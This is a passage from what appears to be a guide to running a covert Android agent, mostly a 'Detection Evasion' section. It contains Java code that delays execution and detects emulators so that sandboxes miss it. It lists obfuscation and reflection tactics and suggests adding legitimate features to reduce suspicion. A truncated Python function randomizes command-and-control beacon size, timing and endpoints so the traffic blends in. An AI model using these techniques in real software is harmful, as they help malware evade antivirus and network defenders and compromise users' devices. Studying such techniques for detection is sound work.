 ```yaml
    approval_required: true
```

#### Communication Security
- **Use** encrypted communication channels
- **Implement** code words for sensitive operations
- **Maintain** communication logs (encrypted)
- **Regular** security briefings and updates

## Detection Evasion

### Anti-Virus Evasion

#### Behavioral Analysis Evasion
```java
// Delay execution to avoid sandbox detection
public void executeWithDelay() {
    try {
        // Random delay between 30-180 seconds
        Thread.sleep((30 + new Random().nextInt(150)) * 1000);
        
        // Check if running in emulator
        if (!isEmulator()) {
            initializeAgent();
        }
    } catch (InterruptedException e) {
        // Handle interruption
    }
}

// Emulator detection
private boolean isEmulator() {
    return Build.FINGERPRINT.contains("generic")
        || Build.MODEL.contains("Emulator")
        || Build.MANUFACTURER.contains("Genymotion");
}
```

#### Static Analysis Evasion
- **Obfuscate** method and class names
- **Encrypt** sensitive strings and configurations
- **Use** reflection to hide API calls
- **Implement** control flow obfuscation
- **Add** legitimate functionality to reduce suspicion

### Network Detection Evasion

#### Traffic Pattern Randomization
```python
def randomize_beacon():
    # Vary request size
    payload_size = random.randint(100, 1000)
    padding = os.urandom(payload_size)
    
    # Vary timing
    jitter = random.uniform(0.7, 1.3)
    next_beacon = base_interval * jitter
    
    # Vary endpoints
    endpoint = random.choice(['/api/events', '/api/metrics', '/api/logs'])
    
    return {
        'payload': actual_data + padding,
```
